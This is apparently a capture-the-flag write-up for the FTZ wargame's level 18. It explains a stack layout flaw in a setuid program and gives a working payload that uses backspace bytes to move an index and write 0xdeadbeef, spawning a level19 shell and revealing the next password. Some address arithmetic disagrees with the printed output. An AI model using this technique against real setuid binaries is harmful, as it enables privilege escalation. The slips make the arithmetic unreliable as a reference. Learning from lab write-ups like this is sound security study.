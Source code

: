 # Level18

## This level's goal
- Pointer

***

```
[level18@ftz level18]$ ls -l
-rwsr-x---    1 level19  level18      6225 Jan 25  1999 attackme
-rw-r-----    1 root     level18      1272 Jan 25  1999 hint

[level18@ftz level18]$ cat hint

#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

```
[level18@ftz tmp]$ gdb /home/level18/attackme
(gdb) disass main
0x08048553 <main+3>:    sub    $0x100,%esp

[level18@ftz tmp]$ cat distance.c

#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf(" &string:%p\n &check:%p\n &x:%p\n &count:%p\n &fds:%p\n", string, &check, &x, &count, &fds);
  printf(" fds's size : %d\n", sizeof(fds));
}

[level18@ftz tmp]$ gcc distance.c -o distance
[level18@ftz tmp]$ ./distance
 &string: 0xbfffe8e0
 &check:  0xbfffe8dc
 &x:      0xbfffe8d8
 &count:  0xbfffe8d4
 &fds:    0xbfffe850
 fds's size : 128
```

As above, total size(x100) means 256 bytes.

&string - &check = 0xbfffefe0 - 0xbfffefdc = 0x4 (4bytes)   
&check  - &x     = 0xbfffefdc - 0xbfffefd8 = 0x4 (4bytes)   
&x      - &count = 0xbfffefd8 - 0xbfffefd4 = 0x4 (4bytes)   
&count  - &fds   = 0xbfffefd4 - 0xbfffef50 = 0x84(132bytes)   
dummy1 = 132bytes - 128bytes = 4bytes   
dummy2 = 265 - ( 128 + 4 + 4 + 4 + 100 ) = 16bytes - 4bytes(SFP) = 12bytes

fds(128bytes) + dummy1(4bytes) + count(4bytes) + x(4bytes) + check(4bytes) + string(100bytes) + dummy2(12bytes) + SFP(4bytes) + RET(4bytes)

```
if(FD_ISSET(fileno(stdin),&fds))
{
  read(fileno(stdin),&x,1);
  switch(x)
  {
    case '\r':
    case '\n':
      printf("\a");
      break;
    case 0x08:
    count--;
    printf("\b \b");
    break;
    default:
      string[count] = x;
      count++;
      break;
  }
}
```
The point is that you need to input deadbeef in the check.

In the hint, I understood string[count] will be --count if input is 0x08.

So, I will move string[]'s pointer and then input deafbeef in the check.

```
[level18@ftz level18]$ (python -c 'print "\x08\x08\x08\x08"+"\xef\xbe\xad\xde"'; cat) | ./attackme
Enter your command:
id
uid=3099(level19) gid=3098(level18) groups=3098(level18)

my-pass
Level19 Password is "swimming in pink".
```
